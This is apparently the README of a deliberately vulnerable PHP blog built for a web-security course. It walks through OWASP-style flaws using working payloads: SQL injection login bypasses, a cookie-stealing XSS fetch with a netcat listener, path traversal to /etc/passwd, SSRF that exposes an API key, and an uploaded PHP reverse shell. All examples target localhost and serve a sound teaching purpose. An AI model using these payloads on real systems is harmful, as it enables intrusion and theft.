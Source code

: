 # VulnBlog

A vulnerable PHP/MariaDB web application created for the BIF-5/WEBSEC course.

## Setup
**Note:** `setup.sh` enables apache2 and mariadb at startup.

```
git clone https://github.com/FelixSchuster/VulnBlog
sudo chmod +x setup.sh
sudo ./setup.sh
```

## Default Credentials
Database:
- `vulnuser`:`P@ssword`

Webpage:
- `admin`:`admin`
- `felix`:`P@ssword`

Passwords are currently saved in plain text, might change this later on.. or not, it's just another vulnerability to test for.

## Vulnerabilities / Proof of Concept

### A01:2021 – Broken Access Control
#### Example 1
In the navbar select 'Previously created Blogposts' and edit any blogpost.
You can edit blogposts of other users by editing the id parameter in the url.
```
http://127.0.0.1/vulnblog/index.php?page=edit_blogpost.php&id=<EDIT THIS>
```

### A03:2021 – Injection
#### Example 1: SQL Injection
The login form is injectable:
```
http://127.0.0.1/vulnblog/index.php?page=login.php
```

Valid SQL injection queries are:
```
' or 1=1 #
admin' #
```

#### Example 2: Stored Cross-Site-Scripting
Create a blogpost including the following payload:
```
<script>alert("XSS");</script>
```

Try hijacking a php session cookie using the payload:
```
<script>fetch('http://127.0.0.1:1234/'+document.cookie);</script>
```

Additionally start a netcat listener using:
```
nc -lvnkp 1234
```

### A04:2013 - Insecure Direct Object References
#### Example 1
Try accessing:
```
http://127.0.0.1/vulnblog/index.php?page=../../../../../../../../etc/passwd
```

### 2021 - Server-Side Request Forgery (SSRF)
Clicking on Dogs sends a GET Request with an imaginery API Key to the dog ceo API.
The URL looks like that: http://localhost/vulnblog/index.php?page=dogs.php&url=https://dog.ceo/api/breeds/image/random

We can change the url to our own webserver: &url=http://localhost:8888

Start a listener, resend the request and retrieve the secret:
```bash
alex@kali:~/VulnBlog$ nc -lvnp 8888                                  
listening on [any] 8888 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 60404
GET / HTTP/1.1
Host: localhost:8888
Authorization: Basic VG9wU2VjcmV0QXBpS2V5ITo=
Accept: */*

alex@kali:~/VulnBlog$ echo "VG9wU2VjcmV0QXBpS2V5ITo=" | base64 -d    
TopSecretApiKey!:
```

### A03:2017 – Sensitive Data Exposure
#### Example 1:
The Vulnblog rents the option to upload images in blog entries. "The access is not protected, this allows users to navigate to the directory and get access to the uploads.
```
http://localhost/vulnblog/uploads/
```
### A03:2007 - Malicious File Execution
#### Example 1:
Unrestricted file uploads:

You can upload a PHP script to execute malicious code.
Try to upload the php-reverse-shell script to get acces to the server.
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
The file will be executed.

After that you need to get access to the server to use the reverse shell.
Use netcat to listen to port 1234.
```
nc -lvnp 1234
```
Now you can test if you are connected to the web server.
```
whoami
```

## Database
For further information see `./database/db.sql`.

![Database Diagram](./database/db.drawio.png)